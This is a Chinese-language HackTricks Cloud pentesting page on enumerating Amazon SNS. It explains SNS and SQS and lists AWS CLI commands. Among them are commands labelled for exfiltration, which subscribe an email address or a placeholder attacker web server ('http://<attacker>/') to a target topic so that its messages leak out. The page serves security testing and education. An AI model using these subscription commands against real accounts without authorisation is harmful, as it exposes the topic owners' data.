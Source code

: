 # AWS - SNS Enum

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## SNS

亚马逊简单通知服务（Amazon SNS）被描述为一个 **完全托管的消息服务**。它支持 **应用程序到应用程序**（A2A）和 **应用程序到个人**（A2P）通信类型。

A2A 通信的关键特性包括 **发布/订阅（pub/sub）机制**。这些机制引入了 **主题**，对于实现高吞吐量的 **推送式、多对多消息传递**至关重要。此功能在涉及分布式系统、微服务和事件驱动的无服务器架构的场景中非常有利。通过利用这些主题，发布系统可以有效地将消息分发到 **广泛的订阅系统**，促进扇出消息模式。

### **与 SQS 的区别**

**SQS** 是一个 **基于队列** 的服务，允许点对点通信，确保消息由 **单个消费者** 处理。它提供 **至少一次交付**，支持标准和 FIFO 队列，并允许消息保留以进行重试和延迟处理。\
另一方面，**SNS** 是一个 **基于发布/订阅的服务**，通过同时向 **多个订阅者** 广播消息来实现 **一对多** 通信。它支持 **各种订阅端点，如电子邮件、短信、Lambda 函数和 HTTP/HTTPS**，并提供针对性消息传递的过滤机制。\
虽然这两项服务都能实现分布式系统中组件之间的解耦，但 SQS 侧重于排队通信，而 SNS 强调事件驱动的扇出通信模式。

### **枚举**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
注意，如果**主题是FIFO类型**，则只能使用使用**SQS**协议的订阅者（不能使用HTTP或HTTPS）。

此外，即使`--topic-arn`包含区域，也请确保在**`--region`**中指定正确的区域，否则您将收到一个错误，表明您没有访问权限，但问题在于区域。
{% endhint %}

#### 未经身份验证的访问

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### 权限提升

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### 利用后

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### 持久性

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## 参考

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR来分享黑客技巧。

</details>
{% endhint %}
